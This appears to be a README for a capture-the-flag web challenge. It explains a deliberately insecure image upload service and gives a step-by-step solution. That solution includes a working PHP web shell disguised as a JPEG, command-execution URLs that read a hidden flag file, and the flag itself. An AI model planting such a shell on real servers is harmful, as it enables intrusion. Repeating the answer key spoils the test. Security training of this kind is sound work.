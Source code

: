 # ImageUploader CTF Challenge

## Challenge Details

### Category
- Web Security
- File Upload Vulnerability
- Command Injection
- Base64 Encoding

### Description
ImageUploader is a seemingly innocent image upload service that contains multiple security vulnerabilities. Participants must exploit file upload restrictions and use command injection to discover and decode a hidden flag.

### Difficulty Level
- Medium

## Technical Details

### Security Flaws
1. **Insecure File Upload**
   - The application only checks file extensions
   - Double extension bypass possible (e.g., `shell.php.jpg`)
   - No proper MIME type validation

2. **Command Injection**
   - Uploaded PHP files are executed as PHP code
   - GET parameter allows arbitrary command execution

3. **Information Disclosure**
   - Directory listing enabled in uploads folder
   - Base64 encoded flag stored in predictable location

## Hosting Requirements

### Prerequisites
- Docker
- Docker Compose
- Git (optional)

### Installation & Deployment

1. **Clone the Repository**
```bash
git clone https://github.com/yourusername/ImageUploader-CTF.git
cd ImageUploader-CTF
```

2. **Build and Run with Docker**
```bash
docker-compose up --build
```

3. **Access the Challenge**
- Open browser and navigate to: `http://localhost:8080`

## Solution Guide

### Step 1: Create Payload
Create a file named `shell.php.jpg` with the following content:
```php
JFIF;
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "Command received: $cmd<br>";
    echo "Executing...<br>";
    system($cmd, $retval);
    echo "Return value: $retval<br>";
} else {
    echo "No command provided.";
}
?>
```

### Step 2: Upload and Execute
1. Upload the `shell.php.jpg` file through the web interface
2. Navigate to `/uploads/shell.php.jpg` in the browser

### Step 3: Find the Flag
1. List directories:
```
http://localhost:8080/uploads/shell.php.jpg?cmd=ls%20/var/hidden/level1/level2
```

2. Read the flag:
```
http://localhost:8080/uploads/shell.php.jpg?cmd=cat%20/var/hidden/level1/level2/secret_flag.txt
```

### Step 4: Decode the Flag
1. The output will be Base64 encoded
2. Decode using any of these methods:
   - Online Base64 decoder
   - Command line: `echo "BASE64_STRING" | base64 -d`
   - PowerShell: `[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("BASE64_STRING"))`

## Available Hints
1. "Check the MIME type bypass techniques"
2. "The flag is hidden deeper than you think"
3. "Multiple encodings might be involved"


## Security Measures
- Apache mod_security enabled
- Security headers configured
- File extension validation
- Upload directory permissions set
- Flag file permissions restricted
- Base64 encoded flag

## Flag Format
- Encoded: `UmVhbEZsYWd7VGgxc18xc19OMHRfVGgzX0ZsNGdfWTB1X1czbnR9`
- Decoded: `RealFlag{Th1s_1s_N0t_Th3_Fl4g_Y0u_W3nt}`
